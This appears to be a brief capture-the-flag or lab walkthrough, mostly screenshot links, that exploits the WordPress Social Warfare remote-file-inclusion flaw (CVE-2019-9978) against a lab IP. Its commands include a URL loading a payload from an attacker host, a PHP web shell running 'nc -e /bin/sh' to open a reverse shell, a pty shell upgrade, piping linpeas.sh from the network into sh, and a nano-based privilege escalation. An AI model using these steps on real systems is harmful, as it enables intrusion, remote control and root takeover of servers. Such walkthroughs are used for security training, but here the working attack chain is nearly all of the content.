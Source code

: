 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

<pre> fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");</pre>

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc8893b3-2b6e-4cfd-b73e-5d6befc39067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c08cd01d-b873-4a3d-b91e-bcf9d46d57ec)

https://gtfobins.github.io/gtfobins/nano/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/610b153b-5db5-4261-b0c4-bacb185c25a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/def0b1fa-f68b-4bd6-bd28-db7cae2a4c0a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e933bf3a-2280-44e7-98cc-186d0dc29943)

^R^X

reset; sh 1>&0 2>&0

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44964b5b-bb9b-4a36-953d-32a149a49b47)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e75a7d5-6e4e-4163-b967-b9fd69d444ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fac8a32b-afa7-48cf-87ac-9ec865660f42)




